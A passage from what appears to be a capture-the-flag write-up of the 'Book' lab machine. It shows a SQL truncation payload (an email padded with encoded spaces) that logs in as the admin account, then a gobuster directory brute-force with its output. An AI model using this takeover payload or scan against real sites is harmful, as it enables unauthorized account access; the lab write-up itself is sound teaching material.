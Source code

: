 After submitting the above request, I tried to logging in but failed due to wrong credentials. Is it possible that my email was truncated? I tried logging in one more time but with one character less, `admin@book.htb123456`, and was successful! This seems like it is vulnerable to [`SQL Truncation Attack`](https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html). 

If we try registering with the email `admin@book.htb%20%20%20%20%20%201` and logging it with it, we login as `admin@book.htb`!

![](/assets/images/book8.png)

However, not much can be done but perhaps there is an admin page somewhere so lets brute-force some directories with `gobuster`!

{% highlight bash %}
$ gobuster dir -u http://book.htb/ -w /usr/share/wordlists/dirb/big.txt -t 12 -k -x .php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://book.htb/
[+] Threads:        12
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403                                                                   	                                                                     
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/04/09 12:41:45 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/admin (Status: 301)
/books.php (Status: 302)
/collections.php (Status: 302)
/contact.php (Status: 302)
/db.php (Status: 200)
/docs (Status: 301)
/download.php (Status: 302)
/feedback.php (Status: 302)
/home.php (Status: 302)
/images (Status: 301)
/index.php (Status: 200)
/logout.php (Status: 302)
/profile.php (Status: 302)
/search.php (Status: 302)
/server-status (Status: 403)
/settings.php (Status: 302)
===============================================================
2020/04/09 12:51:57 Finished
===============================================================